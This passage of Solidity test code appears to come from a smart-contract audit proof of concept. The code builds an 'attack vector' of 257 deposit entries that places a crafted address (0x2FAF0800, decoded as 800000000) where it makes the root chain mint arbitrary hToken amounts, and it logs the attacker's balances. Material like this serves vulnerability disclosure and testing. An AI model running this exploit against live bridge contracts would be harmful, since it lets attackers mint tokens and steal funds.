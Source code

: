 ```solidity
        console2.log("Attacker underlying balance avax", avaxMockAssetToken.balanceOf(attacker));

        console2.log("Attacker h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));
    
        console2.log("ARBITRARY MINT LOG END");
		    console2.log("------------------");

    }

    function _prepareAttackVector() internal view returns(DepositMultipleInput memory) {
        
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when encoded to bytes and then cast to uint256 = 800000000 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
            toChain:toChain
        });

        return input;

    }
```